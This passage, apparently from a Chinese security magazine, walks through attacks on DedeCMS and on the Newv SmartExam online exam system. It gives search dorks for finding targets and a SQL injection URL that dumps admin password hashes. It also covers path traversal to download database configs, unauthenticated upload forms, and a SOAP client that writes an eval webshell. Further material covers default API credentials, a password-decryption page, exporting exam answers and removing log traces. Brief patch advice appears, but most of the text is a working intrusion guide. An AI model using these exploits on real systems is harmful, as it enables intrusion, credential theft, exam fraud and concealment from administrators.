

图 16

或者访问“`data/admin/ver.txt`”文件，获取系统最后升级时间，确认是否安装过 8 月 12 日补丁。访问“`/data/admin/verifies.txt`”，获得指纹码最后同步时间。

> 系统最后升级时间：http://127.0.0.1/data/admin/ver.txt

指纹码最后同步时间：http://127.0.0.1/data/admin/verifies.txt

几个常见的指纹码同步时间：

百度搜索关键字“Powered by DedeCMSV57_GBK 2004-2011 DesDev Inc”，获得使用 DedeCMS 系统的网站。

注入漏洞。首先访问“`/data/admin/ver.txt`”页面获取系统最后升级时间，如图 17 所示，说明已经修补 2011 年 8 月 12 日补丁。



图 17

然后访问“`/member/ajax_membergroup.php?action=post&membergroup=1`”页面，如图 18 所示，说明存在该漏洞。



图 18

访问页面链接“`/member/ajax_membergroup.php?action=post&membergroup=0''' Union select pwd from `#@__admin` where 1 or id=0'''`”，如图 19 所示，去掉前 3 位和最后 1 位，得到管理员的 16 位 MD5 码，www.cmd5.com 在线破解成功。



图 19

上传漏洞。要求网站开启新会员注册功能，首先注册新会员，无须通过邮件验证。只要登录会员中心，然后访问页面链接“`/plus/carbuyaction.php?dopost=memclickout&coid=S-PORN8888&rs...`”

`[code]="../dialog/select_soft_post"`，如图 20 所示，说明通过，“`/plus/carbuyaction.php`”已经成功调用了上传页面“`/dialog/select_soft_post`”。



图 20

将 Php 一句话木马扩展名改为“rar”等，提交页面 `upload1.htm`，如图 21 所示，直接上传成功，如图 22 所示。



图 21



图 22

### 漏洞修补

目前官方没有升级包，简单的防止注入修补方法可以将 `ajax_membergroup.php` 页面删除，或者给 `CheckSql()` 自定义函数中的 `preg_match` 函数增加“i”参数。防止上传的方法可以过滤“`/include/dialog/select_soft_post.php`”文件中的变量 `$newname`，限制其以字符“.”、“?”及空格等结束。

前置知识：ASP

关键词：新为在线 权限认证

## 如履薄冰的新为在线 0Day 漏洞分析

图/文 Cschi


随着网络时代的到来，我们的学习模式受到了前所未有的冲击，在线学习、培训及考试作为一种新型的学习模式已经悄然兴起。我们的学习不再受时间和空间的限制，你可以根据自己的时间合理安排学习计划，而且足不出户就可以参加统一考试。

深圳新为成立于 2003 年，官方网站为 www.newv.com.cn，是目前中国最大的学习管理软件提供商之一（笔者按：此评价出自新为官网）。时至今日，新为主要研发的产品有 SmartLearning 学习发展系统、SmartExam 在线考试系统、SmartBOS 学习运营系统等，成功案例涉及政府机构、税务系统、公安系统、能源交通、高等院校及电信、金融、医疗、IT 等众多行业。SmartExam 在线考试系统（以下简称 SmartExam）是国内市场占有率最高的通用化网络考试软件，主要有 2005、2008、2009、2010 几种版本，如图 1～3 所示。本文重点分析 SmartExam 最新 0Day 漏洞，最后延伸到 SmartLearning、SmartBOS 等系统。Google 搜索关键字“nwc_755_newvexam”，结果如图 4 所示。




因为 SmartExam 是基于微软 .NET 平台开发的商业软件，而不是免费的开源软件，所以本文所涉及的内容仅供技术探讨和系统修补，请勿用于破解攻击等非法用途。也因此，虽然笔者在互联网中仔细地百度、Google 和 Goobye（搜索 ftp 资源），都没有下载到最新的 2010 版本，只得到 SmartExam 2008。尽管是一款数年前的版本，但是通过分析，我们也大致可以窥一斑知全豹，进而获得通往曙光的钥匙。

要想系统分析 SmartExam，就必须使用 Reflector 软件和 Reflector.FileDisassembler 插件进行反编译。目前 Reflector 软件已经开始收费，以前免费版本运行时会提示已过期，并且直接删除可执行文件。破解的方法是修改系统时间为 2004 年的某个时间，但是退出时还是会删除可执行文件，所以需要备份压缩包。通过源码，我们可以分析出 SmartExam 软件注册流程，如图 5 所示，进一步分析 `GetProductInfo()` 函数可以解密新为注册文件的数据格式及加密方式等，本文不做详细讨论。


SmartExam 采用了多种技术架构，整体的安全性能比较高，能较好地防止注入等漏洞，功能更加强大，性能更加稳定，同时具备更好的扩展性，其优点的确很多。但是也可能是新为十分在意软件的功能和性能，对产品安全性有些疏忽，导致其安全性能如纸张，一捅即破，影响到从 SmartExam 到 SmartLearning、SmartBOS 等几乎所有新为产品。

### 1. 用户权限验证方式

如果没有登录用户，新为不允许对 aspx 页面随意访问。当用户访问除 IgnoredUrl 以外的其他页面时，会将用户的访问重定向为登录页面 LoginUrl，默认为“`/customize/nwc_755_newvexam/login/login.aspx`”。查看网站根目录中的“`newv.sso.dll.config`”文件内容，如图 6 所示，其中“IgnoredUrl”值所设置的页面是可以忽略的页面，这些页面即使没有登录用户也可以直接访问。

还可以下载 Log 目录中的日志文件及 bin 目录的 dll 文件，甚至可以下载到 `newv.data.dll.config` 等。下载链接为“`/module/DownloadFileContent.aspx?fileName=../newv.data.dll.config`”，如图 9 所示。从 `newv.data.dll.config` 文件中获得 MSSQL 连接参数，如图 10 所示。像这样设置，我们可以直接访问到 MSSQL 数据库服务器，获得网站数据，如图 11 所示，其中密文“FE24W1UJNg1QedCl+4dKFw==”的明文为“123456”。


图 6

任意下载漏洞：`DownloadFileContent.aspx`。反编译的 `DownloadFileContent.cs` 源码如图 7 所示，首先获取外部变量 `fileName`，然后调用 `DownLoadFile` 函数下载文件，其中 `WebServerFileRootPath` 默认为“/fileroot”目录，可以使用“..”跳转。于是下载 `License.ncer` 文件（产品授权文件）的链接为“`/module/DownloadFileContent.aspx?fileName=../fileroot/License.ncer`”，如图 8 所示。


图 9


图 7


图 10


图 8


图 11

甚至还可以使用本地 MSSQL 企业管理器注册新的“SQL Server 组”，如图 12 所示，在“安全性｜登录”下获得该 MSSQL 服务器中所有登录名和数据库，必要时可以进行暴力破解。


图 12

当然下载 config 文件成功率不会很高，因为这还与服务器设置有关。此外还有 `ExerciseByQuestion.aspx`、`ExamineByQuestion.aspx` 等页面不需要登录就可以直接访问，本文不做深入分析。

### 2. 后台页面上传漏洞

仍然是权限验证的问题，因为新为的后台页面对管理员验证不足（几乎没有验证），导致只要登录普通用户，就可以任意访问后台页面，比如“`/module/ResFileManager.aspx`”、“`/framework/HtmlEditor/HtmlEditRes/FileUpload.aspx`”、“`/fileservice/FileUpload.aspx`”、“`/fileservice/SingleFileUpload.aspx`”、“`/user/framework/UserResFileManager.aspx`（2010 版本的文件）”等，SmartExam 所有版本均受此漏洞影响。

浏览目录。使用链接“`/module/SelectFileOnFileServer.aspx?TargetRootPath=/../`”和“`/module/ResFileManager.aspx?TargetRootPath=/../`”等，可以跨目录浏览，如图 13 和图 14 所示。如果修改 `TargetRootPath` 变量为绝对路径，如“d:/、c:/”等，还可以浏览其他分区或目录。

`ResFileManager.aspx` 上传文件。利用链接“`/module/ResFileManager.aspx?TargetRootPath=/../`”，不但可以跨目录浏览，还可以直接上传 aspx 木马文件，如图 15 和图 16 所示。

注意：

- ① 使用“`TargetRootPath=/../`”跳转目录到网站根目录，因为默认上传目录 `fileroot` 不能解析 aspx。还可以使用“创建”目录名类似“`/../temp`”的目录，达到跨目录上传文件的目的，演示略。
- ② 使用“IgnoredUrl”值所设置的文件名格式，如“`*password.aspx`”等，否则必须登录 SmartExam 才可以访问上传的 aspx 文件。
- ③ 上传页面其实是“`/fileservice/SingleFileUpload.aspx`”页面，如图 17 所示。
- ④ 可以对目录或文件进行“删除”“更名”等操作。这样即使管理员在后台设置“禁止上传的文件扩展名”包含了“aspx”（详见后文），我们依然可以上传 jpg 等文件，然后“更改”扩展名为 aspx，还可以利用“上传自解压文件”上传 aspx 文件。


图 13


图 14


图 15

图 16

图 19

图 17

`HtmlEditor.aspx` 高级编辑器上传文件。访问链接“`/framework/HtmlEditor/HtmlEditor.aspx?FileRootPath=/../`”，打开“高级编辑器”页面，利用“插入附件”上传 aspx 文件，如图 18 所示。

分析反编译文件 `fileservice_FileUpload.cs` 源码，如图 20 所示，可以一次上传多个文件，还可以使用 `FilePath` 变量跳转目录，而且没有限制上传文件的类型。

图 20

图 18

- 1. 使用“`FileRootPath=/../`”，文件将被上传到网站根目录。
- 2. 使用“HTML”从源码中获得上传后的文件名。
- 3. “插入附件”实际调用的是“`/framework/HtmlEditor/HtmlEditRes/ftb_insertattachment.aspx`”页面文件。

`FileUpload.aspx` 上传文件。直接访问“`/fileservice/FileUpload.aspx`”，页面出错，如图 19 所示，这是因为没有提交 `file` 对象实例，只要我们外部提交 `file` 对象即可。

提交页面如图 21 所示，源码如图 22 所示，上传后的文件名使用“`*Password.aspx`”格式，保证不登录 SmartExam 用户可以直接访问，上传成功后页面返回“Succeed”，如图 23 所示。

图 21

图 22

```html
<form name="InsertAttachment" method="post" action="http://.../fileservice/FileUpload.aspx" enctype="multipart/form-data">
<input name="FilePath" type="text" value="/../myPassword.aspx"><br>
<input name="lpInat" type="file"><br>
<input type="submit" name="btnUpload" value="上传"><br>
</form>
```

图 23

图 25

由于 SmartExam 2010 版本允许直接访问 `FileUpload.aspx` 页面，所以在不登录的情况下，就能秒杀 SmartExam！

## asmx 文件漏洞

可能大家认为上节涉及的漏洞危害不大，毕竟访问后台页面必须得先登录用户，而这样对系统的危害也仅限于“内部人员”，因为 SmartExam 默认不允许注册新用户，但是在本节中笔者将爆出 asmx 漏洞，足以颠覆新为的安全防线。

asmx 是 WEB 服务文件，属于 B/S 形式，用 SOAP 方式访问，用 XML 方式返回数据。SmartExam 允许直接访问 “`*.asmx*`”，并且存在多个 asmx 文件，SmartExam 2010 包含的 asmx 文件如图 24 所示，而 SmartExam 2008 版本仅包含其中 `FileManage.asmx`、`UserInterface.asmx`、`ExamInterface.asmx` 等文件。

图 24

### FileManage.asmx 漏洞

顾名思义，该文件主要用于文件的上传、更名、删除等操作，直接访问结果如图 25 所示，选择相应的操作（operations）函数，如“GetLogicalDrives”，获得 SOAP 1.1 或 1.2 方式的调用和返回数据格式，如图 26 所示。

图 26

SOAP 采用了广泛使用的两个协议：HTTP 和 XML，可以简单理解为以 HTTP 方式提交 XML 格式数据。SOAP 1.1 的数据格式如下（其中黑体部分是操作函数的调用参数或返回数据，GetLogicalDrives 为获得本地磁盘分区函数，没有参数）。

```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
               xmlns:xsd="http://www.w3.org/2001/XMLSchema"
               xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetLogicalDrives xmlns="http://tempuri.org/" />
  </soap:Body>
</soap:Envelope>
```

我们获得 XML 格式的数据后，剩下的问题就是将这些数据以 HTTP 方式提交，就可以实现以 SOAP 方式访问 web 服务的 asmx 文件了，最简单的方法是使用 XMLHttpRequest 对象，页面源代码如下。

```html
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=GB2312">
</head>
<script language="javascript">
  var XMLHttpReq = false;
  // 创建 XMLHttpRequest 对象
</script>
```

```javascript
function createXMLHttpRequest() {
    if(window.XMLHttpRequest) { // Mozilla 浏览器
        XMLHttpReq = new XMLHttpRequest();
    } else if(window.ActiveXObject) { // IE 浏览器
        try {
            XMLHttpReq = new ActiveXObject("Msxml2.XMLHTTP");
        } catch (e) {
            try {
                XMLHttpReq = new ActiveXObject("Microsoft.XMLHTTP");
            } catch (e) {}
        }
    }
}

// 发送请求函数
function sendRequest() {
    createXMLHttpRequest();
    var xml = createXML();
    url = document.getElementById("url").value;
    XMLHttpReq.open("POST", url+"/fileservice/FileManage.asmx", true);
    XMLHttpReq.onreadystatechange = processResponse; // 指定响应函数
    XMLHttpReq.setRequestHeader("Content-Type", "text/xml");
    XMLHttpReq.send(xml); // 发送请求
}

// 处理返回信息函数
function processResponse() {
    if (XMLHttpReq.readyState == 4) {
        if (XMLHttpReq.status == 200) {
            var res = XMLHttpReq.responseText;
            document.getElementById("XMLResult").innerHTML = res;
        } else {
            window.alert("您所请求的页面有异常。");
        }
    }
}

// 创建 XML 格式数据
function createXML() {
    var xml = "<?xml version=\"1.0\" encoding=\"utf-8\"?>";
    xml = xml + "<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\">";
    xml = xml + "<soap:Body>";

    // GetLogicalDrives 函数获取磁盘分区
    // xml = xml + "<GetLogicalDrives xmlns=\"http://tempuri.org/\"/>";

    // GetFileListFromSpecificPath 函数获取文件
    xml = xml + "<GetFileListFromSpecificPath xmlns=\"http://tempuri.org/\">";
    xml = xml + "<sPath>\\..\\</sPath>";
    xml = xml + "</GetFileListFromSpecificPath>";

    // GetDirectories 函数获取目录
    /*
    xml = xml + "<GetDirectories xmlns=\"http://tempuri.org/\">";
    xml = xml + "<sPath>C:\\</sPath>";
    xml = xml + "</GetDirectories>";
    */

    // WriteTextFile 函数写文件
    /*
    xml = xml + "<WriteTextFile xmlns=\"http://tempuri.org/\">";
    xml = xml + "<filePath>D:\\tmp-8000\\smartexam2008\\web\\111.aspx</filePath>";
    xml = xml + "<fileContent>stringjjhihhcvvcvc</fileContent>";
    xml = xml + "</WriteTextFile>";
    */

    xml = xml + "</soap:Body>";
    xml = xml + "</soap:Envelope>";
    return xml;
}
</script>

<body vLink="#006666" link="#003366" bgColor="#F0F0F8">
<form action="" method="post" name="myform1">
url: <input type="text" size="50" name="url" value="http://"><br>
<input type="button" value="提交" onclick="sendRequest()">
</form>
<div id="XMLResult"></div>
```

关键代码是 `createXML()` 函数，生成符合 SOAP 1.1 要求的格式数据。该函数调用 `FileManage.asmx` 中的操作函数 `GetFileListFromSpecificPath`，获取参数 `sPath` 所指定目录中的文件列表，“`\\..\\`”指定网站根目录，这样我们可以获取到绝对路径。该函数还给出 `GetLogicalDrives`（获取磁盘分区）、`GetDirectories`（获取目录）、`WriteTextFile`（写文本文件）等调用示例，请根据实际情况设置其中的参数。最后复制这段源码并另存为 `FileManage.asmx.html` 文件，输入 URL 获得网站的绝对路径，如图 27 所示，虽然显示的结果不很美观，但是我们的目的已经达到！

图 27

操作函数 `WriteTextFile` 写文本文件。设置参数 `filePath` 为绝对路径“`d:\newway\smart exam2011\web\111password.aspx`”，或者相对路径“`\\..\\111password.aspx`”，文件名使用“`*password.aspx`”格式；设置参数 `fileContent` 为 aspx 的句子，如“`<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["w"],"unsafe"));%>`”，特殊字符需要转义；如“<”、“>”必须用 ASCII 码值“`&#60;`”、“`&#62;`”代替，提交的一句话成为“`&#60;%@ Page Language=\"Jscript\" validateRequest=\"false\" %&#62;&#60;%Response.Write(eval(Request.Item[\"w\"],\"unsafe\"));%&#62;`”，如图 28 所示。

图 28

如果提交页面返回“false”，表示没有错误，写文件成功，使用客户端连接如图 29 所示。

图 29

`FileManage.asmx` 支持的操作函数非常丰富，如 `CopyFile`（复制文件）、`DeleteDirectory`（删除目录）、`DeleteFile`（删除文件）、`OpenTextFile`（读文本文件）、`RenameDirectory`（重命名目录）、`RenameFile`（重命名文件）、`UnzipFile`（解压缩文件）、`UploadFile`（上传文件，参数 `buffer` 值必须是 `base64Binary` 类型数据）、`SearchFileFromSpecificPath`（搜索文件）等。详细利用，有兴趣的读者可以自己尝试，本文略。

### UserInterface.asmx 漏洞

用户接口文件 `framework/api/UserInterface.asmx` 提供了与用户有关的操作函数，如 `AddDept`（添加部门）、`DeleteUserByLoginName`（根据登录名删除用户）、`Encrypto`（获得字符串的 Encryp 编码，如密码）、`GetUserInfoByLoginName`（根据登录名获得用户信息）、`InsertUserInfo`（插入用户信息）、`Login`（登录用户）、`UpdateUserInfo`（修改用户信息）等，如图 30 所示。

图 30

在这个用户接口文件中的操作函数几乎都包含两个参数 `callUserName` 和 `callUserPassword`，必须通过这两个参数的验证，才能成功调用接口文件中的操作函数，如图 31 所示。

图 31

在反编译文件 `NvAppSetting.cs` 源码中找到参数 `callUserName` 和 `callUserPassword` 的默认值，分别为“system”、“system123456”，如图 32 所示。

图 32

提交页面 `UserInterface.asmx.html` 与 `FileManage.asmx.html` 相似，只有 `callUserName` 和 `callUserPassword` 不同，分别为“system”、“system123456”，然后调用操作函数 `GetUserInfoByLoginName`，获取管理员“admin”的用户信息；`createXML()` 函数中调用的操作函数略有不同，如图 33 所示，即修改前文的提交页面源码：首先设置参数 `callUserName` 和 `callUserPassword`，然后修改“`XMLHttpReq.open("POST", url+"/fileservice/FileManage.asmx", true);`”为“`XMLHttpReq.open("POST", url+"/framework/api/UserInterface.asmx", true);`”，最后另存为 `UserInterface.asmx.html` 文件。

图 33

成功获取到管理员 admin 的用户信息，如图 34 所示。

图 34

### 破解密码

SmartExam 使用 `SymmetricCryptoMethod.Encrypto()` 函数加密密码，该函数定义在 `newv.common.dll` 文件的 `SymmetricCryptoMethod` 类中，反编译源码如图 35 所示，这个类中不但定义了 `Encrypto()` 函数，还定义了 `Decrypto()` 函数，因此我们就可以利用 `Decrypto()` 函数破解密码。

图 35

复制如下代码，保存为 `Decrypto.aspx` 文件，上传到 SmartExam 系统的 `customize` 目录中（不允许登录访问“`customize/*`”，即 `customize` 目录中的任意文件），这样便获得一个简易的 SmartExam 密码破解工具，在地址栏提交需要破解的密文，就可以成功破解到明文了，如图 36 所示。

```aspx
<%@ Page Language="C#" Debug="true" %>
<%@ Import Namespace="newv.common" %>
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.Web" %>
<%@ Import Namespace="System.Web.UI" %>
<%@ Import Namespace="System.Web.UI.HtmlControls" %>

<head>
<title>SmartExam 密码破解</title>
</head>
<%
string str=Request["str"];
Response.Write("破解结果:"+SymmetricCryptoMethod.Decrypto(str));
%>
```

图 36

一旦获得管理员密码，我们就可以“正大光明”、

## KK漏洞攻防

“堂而皇之”地登录系统，并且获得后台管理权限，如图37所示。注意，SmartExam 会详细记录用户登录和各种操作日志，包括删除日志的操作。要想完全删除登录痕迹，必须通过第三方工具连接 MSSQL 数据库执行 delete 语句。


图40


图37

ExamInterface.asmx 提供了与考试相关的接口函数，比如 DeleteByExamUid、DeleteByExerciseUid、GetUserExamView 等，如图38所示。调用方式与 UserInterface.asmx 类似，需要指定参数 callUserName 和 callUserPassword。

### 数据安全

树欲静而风不止。对于安全隐患人们防之又防，可是各种密码泄露、用户信息被盗事件仍时有发生，令人想而生畏。在线考试系统不会承载太多的用户信息，我们关注的是系统中的考试信息，比如试题、答案、试卷、成绩等，一旦系统存在安全隐患，这些信息将显得那么脆弱和苍白。由于 SmartExam 在验证管理员后台权限方面存在问题，只要用户登录系统，就可以任意访问后台页面文件，因此普通用户也可以完成管理员的操作，比如修改系统设置、管理题库、试卷、用户、新增（导入）管理员等。SmartExam 对于普通用户可以说是“完全开放”的，只要给出链接，谁都可以进行管理员的操作。


图38

SmartExam 2010 版本还新增了 DistInterface.asmx、SmartClient.asmx 等接口文件，如图39和图40所示，至于如何应用，本文不做讨论。

下面是一些常用的链接。

- 操作日志：`/framework/system/OperateLogList.aspx`，如图41所示。


图39


图41

- 系统设置：`/framework/system/SysManageSettingMain.aspx`，如图42所示。利用这个页面可以设置禁止上传的文件类型，默认为“exe;bat;cmd;scr;com”，还可以修改“调用 Web 服务的用户名和密码”，即参数 callUserName 和 callUserPassword，默认为“system 和 system123456”。


图42

#### 题库管理

`/module/OneTabMain.aspx?MenuCode=exam_question_manage&MenuLink=exam/question/QuestionManage.aspx`，如图43所示。利用这个页面可以“导出”全部试题及标准答案，可以是 excel 格式或 doc 格式。


图43

#### 试卷管理

